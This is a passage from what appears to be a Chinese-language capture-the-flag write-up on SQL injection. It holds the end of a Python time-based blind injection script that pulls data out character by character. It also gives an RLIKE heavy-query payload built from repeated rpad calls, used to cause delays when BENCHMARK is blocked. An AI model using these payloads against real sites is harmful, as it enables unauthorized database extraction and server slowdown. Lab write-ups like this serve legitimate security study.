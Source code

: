 ```python
    }
    try:
        _ = requests.post(url, data=data, timeout=3)
    except:
        return True
    return False


result = ""
i = 1

while True:
    start = 32
    end = 127
    while not (abs(start-end) == 1 or start == end):
        p = (start + end) // 2
        if valid_char(i, p):
            start = p
            time.sleep(10) # benchmark 跑完大概需要 10s 多，3s 超时后再让它跑 10s，防止阻塞后全部超时影响时间盲注
        else:
            end = p
    if end < start:
        end = start
    if chr(end) == '!':
        break
    result += chr(end)
    print(f"[*] result: {result}")
    i += 1

```

有一个注意点，每次跑完都要加上sleep让程序休息一下，不然可能会因为请求过多环境崩溃

### 218 RLIKE REGEXP正则匹配

![截图](1ac52d7b0c82376555c23e76b73eb31f.png)

benchmark无了

```
concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'
```

